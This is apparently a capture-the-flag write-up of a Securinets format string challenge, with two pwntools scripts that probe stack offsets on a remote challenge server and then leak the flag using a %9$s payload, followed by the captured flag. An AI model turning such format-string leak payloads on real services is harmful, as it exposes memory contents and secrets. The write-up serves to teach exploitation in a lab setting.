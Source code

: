 ![image](https://github.com/user-attachments/assets/8df712ef-03ab-41ba-a351-3e1daa23acde)

This task contains a format string vulnerability due to the way user input is handled in the challenge function.

In this challenge, the flag is stored at a specific memory address inside the program. Our goal is to find this address and leak or manipulate it . 

Since the exact location of the flag is unknown, we brute-force format string offsets (%1$s, %2$s, etc.) to identify which stack position points to the flag.
```Python
from pwn import *
host = "51.77.140.155"
port = 1339
for i in range(1, 16):
    try:
        #p = process("./main")
        p = remote(host, port)
        payload = f'%{i}$x\n'
        p.sendline(payload.encode())
        response = p.recvall().decode().strip()
        print(f"Position {i:2}: {response}")
        p.close()
    except Exception as e:
        print(f"Error testing position {i}: {str(e)}")
```
Now that we’ve identified %9$s as the offset pointing to the flag’s location in memory, we can craft a payload to directly leak the flag. Here’s the workflow:
```Python
from pwn import *
binary = './main'
elf = ELF(binary)
flag_addr = elf.symbols['flag']
p = process(binary)
p = remote("51.77.140.155", 1339)
payload = f'%9$s'.encode().ljust(8, b'A') + p64(flag_addr)
p.sendline(payload)
p.recvuntil(b'called: ')
leak = p.recvline().strip()
info(leak)
p.interactive()
```

![image](https://github.com/user-attachments/assets/aa311869-488c-4d11-89a5-178ee94d1ac0)

FLAG: Securinets{4ba212af96b04be1bf46b7a6ae73e66565b}

Resources :

https://ctf-wiki.mahaloz.re/pwn/linux/summary/get-address/

https://aeb.win.tue.nl/linux/hh/formats-teso.html

